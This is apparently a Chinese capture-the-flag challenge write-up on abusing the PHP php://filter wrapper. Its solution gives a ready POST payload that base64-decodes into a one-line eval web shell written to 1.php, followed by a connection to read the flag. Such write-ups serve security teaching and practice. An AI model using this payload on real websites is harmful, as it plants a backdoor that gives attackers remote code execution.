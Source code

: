 - 出题人: xidaner
- 难度: 中等
- 考点: 对 php 伪协议的学习和绕过
- 解法:

    使用 `filename=php://filter/write=convert.base64-decode` 来进行对 `filename` 变量的处理，既以 base64 的编码来读。, 将命令 ` 一句话马 ` 用 base64 编码，得到 `PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=`

    post 发包
    ```
    code=PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=&filename=php://filter/write=convert.base64-decode/resource=1.php
    ```
    连接即可

- flag: flag 在根目录 flag.txt
- 注意点: 无
